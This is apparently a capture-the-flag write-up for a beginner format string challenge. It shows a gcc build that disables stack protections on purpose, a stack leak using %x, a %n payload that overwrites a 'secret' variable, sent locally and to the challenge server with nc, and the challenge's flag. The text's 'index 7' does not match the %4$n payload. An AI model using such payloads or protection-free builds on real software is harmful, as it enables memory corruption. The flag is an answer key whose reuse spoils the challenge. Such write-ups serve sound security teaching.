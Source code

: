 # Mystery_String
This challenges introduces a basic format string vulnerability to the player.
**Description of the Challenge:**
I like the `printf` function in C! This function is so smart, isn't it! 

## Setup
* The python script `mystery_string_socket.py` is used to setup the connection to the challenge
* The following command is used to generate the binary without protection mechanisms:
```gcc binary_32.c -z execstack -z norelro -fno-stack-protector -D_FORTIFY_SOURCE=0 -ggdb -m32 -static -o binary_32```

## Solution
* Get the address of secret
```
objdump -t binary_32 | grep secret
080d9c3c g     O .bss   00000004              secret
```

* Look at the stack
```
python2 -c 'print "A"*4 + "-%x-%x-%x-%x-%x-%x-%x"' | ./binary_32
AAAA-80-f7785580-ffb064f4-41414141-1-c2-ff583ad5
Sorry, secret = 0
```

* AAAA is at index 4
* Write the address of secret and 188 bytes (4+188=192 = secret value) and write it at index 7 on stack
```
python2 -c 'print "\x3c\x9c\x0d\x08%188x%4$n"' | ./binary_32
python2 -c 'print "\x3c\x9c\x0d\x08%188x%4$n"' | nc ctf-server port
THICTF{w4tch_y0ur_f0rmat_strings}
```

## Flag
Flag: THICTF{w4tch_y0ur_f0rmat_strings}
